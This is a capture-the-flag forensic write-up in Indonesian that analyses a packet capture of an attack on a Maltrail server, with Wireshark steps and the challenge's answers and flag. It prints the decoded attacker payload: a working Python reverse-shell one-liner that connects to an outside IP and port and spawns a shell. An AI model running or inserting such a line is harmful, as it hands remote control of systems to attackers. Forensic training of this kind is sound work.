# Analyze the Bad Hacker!

Author: daffainfo

Category: Forensic

Flag: `HCS{f0R3n51k_1tu_m3n4rik}`

## Description
Let's ping the website!!

## Difficulty
Easy

## Solution

Jawaban:
Pertama konek dulu dengan server untuk menjawab beberapa pertanyaan yang diajukan
```
nc 34.101.202.34 30001
```



Diawali dengan soal pertama yang diharuskan mencari nama dan versi server yang digunakan oleh perusahaan



Jika dengan menggunakan filter `http` pada wireshark. Maka akan muncul HTTP request beserta responsenya. Kemudian pilih salah satu HTTP response dan muncul header bernama `Server` yang mengandung nama server beserta versinya

```
Maltrail/0.53
```



Kemudian, soal kedua diminta untuk memasukkan username beserta hash dimana penyerang login kedalam website kedua kalinya. Hal tersebut bisa dicek dengan filter `http.request.method == POST` untuk memperlihatkan packet mana saja yang mengandung HTTP request dan response pada saat login



Untuk mengecek isi dari packet yang ada, bisa menekan tombol klik kanan kemudian follow -> HTTP Stream



Pada packet ke 2063 adalah dimana penyerang login kedalam website kedua kalinya dan jawabannya adalah

```
admin:56dd090935480e98650bc29cd0734ca2505f4106a315b223d9e6e2d9bc3edd73
```



Untuk pertanyaan ketiga, ini bisa didapat jika melihat beberapa packet yang ada



Ada HTTP request yang cukup mencurigakan seperti gambar diatas karena terdapat fungsi `base64` dan `sh`. Jika dilihat kembali, terdapat fungsi seperti melakukan decode base64.



```bash
python3 -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("159.223.33.240",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'
```

Jika didecode, ternyata mengandung IP dan juga port penyerang

```
159.223.33.240:9999
```



Untuk soal terakhir, kita diharuskan untuk mencari file yang dimasukkan oleh penyerang didalam server



Hal itu bisa didapatkan di beberapa packet setelah HTTP request yang mencurigakan sebelumnya, terlihat penyerang membuat file baru bernama `/tmp/.hmm.sh` yang berisikan command untuk melakukan reverse shell

```
/tmp/.hmm.sh
```

